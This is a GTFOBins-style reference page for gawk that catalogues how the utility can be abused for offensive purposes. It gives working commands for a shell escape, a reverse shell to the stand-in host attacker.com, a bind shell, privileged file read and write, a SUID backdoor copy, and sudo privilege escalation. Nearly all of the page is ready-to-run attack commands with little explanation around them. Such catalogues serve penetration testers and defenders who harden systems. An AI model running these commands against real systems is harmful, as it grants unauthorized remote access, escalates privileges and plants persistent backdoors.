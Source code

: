 # GTFOBin: gawk

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
gawk 'BEGIN {system("/bin/sh")}'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
gawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
    s = "/inet/tcp/0/" RHOST "/" RPORT;
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
LPORT=12345
gawk -v LPORT=$LPORT 'BEGIN {
    s = "/inet/tcp/" LPORT "/0/0";
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
gawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
gawk '//' "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which gawk) .

LFILE=file_to_read
./gawk '//' "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo gawk 'BEGIN {system("/bin/sh")}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which gawk) .

./gawk 'BEGIN {system("/bin/sh")}'
```